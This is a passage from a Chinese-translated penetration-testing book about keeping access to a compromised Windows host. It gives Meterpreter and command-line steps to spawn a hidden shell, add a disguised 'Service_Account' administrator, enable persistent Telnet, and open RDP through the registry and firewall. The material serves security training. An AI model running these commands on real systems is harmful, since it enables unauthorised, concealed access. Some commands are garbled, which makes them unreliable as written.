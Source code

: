 接下来，使用以下命令获取本地命令 shell 以访问目标系统：

```
meterpreter> execute -H -f cmd -i

```

执行此命令时，会创建一个交互式命令 shell（`-i`），作为隐藏进程（`-H`）。

使用 shell 的命令提示符，创建一个新的用户帐户。在创建用户帐户以确保持久性时，许多攻击者使用以下两部分策略：

+   创建一个帐户，如果被调查，会引起注意（例如，Leet7737）

+   创建一个看起来像是正常系统功能的帐户，比如`Service_Account`，使用以下命令：

```
C:\net user Service_Account password /ADD
C:\net localgroup administrators Service_Account /ADD

```

创建新用户帐户后，退出 Windows 命令 shell。

要启用 Telnet，请从`meterpreter`提示符中运行以下命令：

```
run gettelnet -e

```

执行前一个命令的结果如下截图所示：

![远程启用 Telnet 服务](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_01.jpg)

在前一个截图中显示的脚本在受损系统上创建了一个持久的 Telnet 服务。要访问它，请使用 Telnet 协议连接到系统的 IP 地址，并提供用于创建帐户的用户名和密码，如下一个截图所示：

![远程启用 Telnet 服务](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_02.jpg)

Telnet 服务将持续存在，直到被移除。不幸的是，使用 Telnet 存在一些限制：它很容易被发现（特别是因为凭据是明文传输的），并且它只能在命令行模式下运行。

但是，如果您需要 GUI 来访问受损系统上的某些应用程序呢？

## 远程启用 Windows 终端服务

确保远程访问的最可靠技术之一是持久地启用 Windows 终端服务，也称为**远程桌面协议**（**RDP**）。为此，您必须具有管理员特权，并了解目标操作系统的版本。

例如，如果目标是 Windows 7，使用`meterpreter`在目标上获取交互式命令 shell，然后输入以下命令更改注册表：

```
C:\ reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
C:\reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f 

```

为了确保 RDP 能够通过客户端防火墙，使用以下命令添加规则：

```
C:\ netshadvfirewall firewall set rule group="remote desktop"new enable=Yes

```
